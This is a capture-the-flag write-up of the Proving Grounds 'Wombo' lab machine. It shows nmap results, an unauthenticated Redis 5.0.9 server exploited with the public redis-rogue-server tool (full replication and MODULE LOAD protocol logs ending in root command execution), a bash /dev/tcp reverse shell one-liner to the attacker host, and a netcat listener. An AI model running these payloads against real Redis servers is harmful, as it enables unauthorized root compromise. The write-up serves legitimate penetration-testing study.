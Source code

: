```yaml
---
title: "Proving grounds Practice: Wombo"
layout: post
date: 2023-10-21 02:00
categories: writeup
---
```


Proving grounds Practice - Wombo CTF writeup.

## Nmap

```text
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
80/tcp    open  http       nginx 1.10.3
6379/tcp  open  redis      Redis key-value store 5.0.9
8080/tcp  open  http-proxy
27017/tcp open  mongod?
```

## 6379/tcp - open - redis - Redis key-value store 5.0.9

The redis server is vulnerable to [Remote code Execution](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#redis-rce) vulnerability.

Connect to redis server to check if it is password protected or not.

```sh
naveenj@hackerspace:[09:32]~/proving_grounds/Wombo$ redis-cli -h 192.168.211.69
192.168.211.69:6379> module list
(empty array)
(0.53s)
192.168.211.69:6379> 
```

The server is not password protected, clone the [GitHub](https://github.com/n0b0dyCN/redis-rogue-server) exploit and follow below steps.

After cloning the repository direct to `/redis-rogue-server/RedisModulesSDK/exp` folder and run `sudo make`. The `exp.so` file will be created and copy the file to the folder where the python exploit code is exists.

## Exploitation

```sh
naveenj@hackerspace:[09:53]~/proving_grounds/Wombo/redis-rogue-server$ python redis-rogue-server.py --rhost 192.168.211.69 --rport 6379 --lhost 192.168.45.243 --lport 80 --exp=exp.so -v
______         _ _      ______                         _____                          
| ___ \       | (_)     | ___ \                       /  ___|                         
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __ 
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |   
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|   
                                     __/ |                                            
                                    |___/                                             
@copyright n0b0dy @ r3kapig

[info] TARGET 192.168.211.69:6379
[info] SERVER 192.168.45.243:80
[info] Setting master...
[<-] b'*3\r\n$7\r\nSLAVEOF\r\n$14\r\n192.168.45.243\r\n$2\r\n80\r\n'
[->] b'+OK\r\n'
[info] Setting dbfilename...
[<-] b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$6\r\nexp.so\r\n'
[->] b'+OK\r\n'
[->] b'*1\r\n$4\r\nPING\r\n'
[<-] b'+PONG\r\n'
[->] b'*3\r\n$8\r\nREPLCONF\r\n$14\r\nlistening-port\r\n$4\r\n6379\r\n'
[<-] b'+OK\r\n'
[->] b'*5\r\n$8\r\nREPLCONF\r\n$4\r\ncapa\r\n$3\r\neof\r\n$4\r\ncapa\r\n$6\r\npsync2\r\n'
[<-] b'+OK\r\n'
[->] b'*3\r\n$5\r\nPSYNC\r\n$40\r\n73a8ee0c379f25d3a0d876642411d68a61500ca3\r\n$1\r\n1\r\n'
[<-] b'+FULLRESYNC ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ 1\r\n$47856\r\n\x7fELF\x02\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00'......b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x11\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xc8\xb3\x00\x00\x00\x00\x00\x00\xe3\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\r\n'
[info] Loading module...
[<-] b'*3\r\n$6\r\nMODULE\r\n$4\r\nLOAD\r\n$8\r\n./exp.so\r\n'
[->] b'+OK\r\n'
[info] Temerory cleaning up...
[<-] b'*3\r\n$7\r\nSLAVEOF\r\n$2\r\nNO\r\n$3\r\nONE\r\n'
[->] b'+OK\r\n'
[<-] b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$8\r\ndump.rdb\r\n'
[->] b'+OK\r\n'
[<-] b'*2\r\n$11\r\nsystem.exec\r\n$11\r\nrm ./exp.so\r\n'
[->] b'$1\r\ne\r\n'
What do u want, [i]nteractive shell or [r]everse shell: i
[info] Interact mode start, enter "exit" to quit.
[<<] id;whoami;
[<-] b'*2\r\n$11\r\nsystem.exec\r\n$10\r\nid;whoami;\r\n'
[->] b'$45\r\n\x08uid=0(root) gid=0(root) groups=0(root)\nroot\n\r\n'
[>>]uid=0(root) gid=0(root) groups=0(root)
[>>] root
```

**Foothold Obtained**

## Reverse Shell

Bash reverse shell.

```sh
bash -c 'sh -i >& /dev/tcp/192.168.45.243/8080 0>&1';
```

Make sure the netcat listener is running.

```sh
veenj@hackerspace:[09:51]~/proving_grounds/Wombo/redis-rogue-server$ nc -lvnp 8080
listening on [any] 8080 ...
connect to [192.168.45.243] from (UNKNOWN) [192.168.211.69] 54064
sh: 0: can't access tty; job control turned off
# which python
/usr/bin/python
# python -c 'import pty; pty.spawn("/bin/bash")'
root@wombo:/# 
```

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
